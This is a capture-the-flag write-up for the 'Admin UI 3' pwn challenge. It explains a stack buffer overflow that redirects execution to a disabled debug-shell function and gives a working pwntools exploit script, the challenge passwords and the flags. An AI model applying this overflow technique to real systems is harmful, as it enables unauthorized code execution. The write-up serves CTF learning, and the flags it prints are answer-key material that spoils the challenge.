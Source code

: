 [../](../../)

# ADMIN UI 3

## pwn-re

> The code quality here is terrible. Even the temperature scale is measured in "Kevins". Just bad Q/A all around here. If they choose to measure in Kevins rather than Kelvins, then it's a sure bet that they can't handle their memory properly. It looks like this also controls the SmartFridge2000 internal temperature for that whole home "just-works" experience.

Now, with having service access, we get a pseudo shell and we can enter `debug`, that prints out the vmmap, and `shell` that should spawn a real shell, but was disabled.

Here, we can overflow the buffer and control the `RIP` to jump to the `_Z11debug_shellv` symbol, that the `shell` command should actually call.

Exploit script

```python
from pwn import *

e = ELF('admin-ui')

p = remote('mngmnt-iface.ctfcompetition.com', 1337)

p.sendline('1')
p.sendline('CTF{I_luv_buggy_sOFtware}')
p.sendline('CTF{Two_PasSworDz_Better_th4n_1_k?}')

p.sendline('A' * 56 + p64(e.symbols['_Z11debug_shellv']))
p.sendline('quit')
p.interactive()
```

Then we find another flag file, namely `an0th3r_fl44444g_yo`.

flag: `CTF{c0d3ExEc?W411_pL4y3d}`